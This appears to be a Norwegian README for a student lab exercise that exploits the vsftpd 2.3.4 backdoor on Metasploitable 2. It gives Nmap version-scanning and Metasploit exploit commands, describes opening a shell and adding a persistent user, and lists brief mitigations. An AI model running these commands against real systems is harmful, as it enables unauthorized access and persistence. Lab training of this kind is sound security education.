 # vsftpd 2.3.4 backdoor — lab

Fiktiv, kontrollert øvingslab: identifisere sårbar **vsftpd 2.3.4**, utnytte med Metasploit og verifisere shell.  
> **Ansvarsfraskrivelse:** Kun i lab/demo. Ikke forsøk mot systemer du ikke eier eller har eksplisitt tillatelse til.

## Mål
- Finne FTP-versjon (Nmap)
- Utnytte backdoor (Metasploit)
- Opprette ny bruker og verifisere innlogging

## Miljø (kort)
- Angriper: Kali Linux  
- Mål: Metasploitable 2 (lokalt labnett)  
- Verktøy: Nmap, Metasploit

## Evidens (sett inn skjermbilder senere)
**1) Versjonsidentifikasjon**
![Nmap FTP-versjon](images/nmap-ftp-version.png "Nmap viser vsftpd 2.3.4")

**2) Utnyttelse og shell**
![Metasploit shell](images/msf-session.png "Shell etablert via exploit/unix/ftp/vsftpd_234_backdoor")

**3) Opprette bruker**
![adduser](images/adduser.png "Opprett lab-bruker (maskér kandidatnummer ved behov)")

**4) Innlogging etter restart**
![innlogging](images/login-new-user.png "Innlogging med ny bruker")

## Reproduser (eksempelkommandoer)
```bash
# 1) Oppdagelse
nmap -sV -p 21 192.168.x.x

# 2) Metasploit (kort)
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.x.x
run
```

## Mitigasjoner (kort)
- Fjern/oppgrader sårbar tjeneste
- Reduser angrepsflate (steng ubrukte porter)
- Patchrutiner, IDS/IPS-signaturer

## Vedlegg (ekstra)

**Metasploit – banner**
![msfconsole banner](images/msfconsole-banner.png)

**Metasploit – modulsøk etter vsftpd**
![msf search vsftpd](images/msf-search-vsftpd.png)

**Nmap – full scan**
![Nmap full](images/nmap-ftp-version-large.png)


## Lisens
MIT
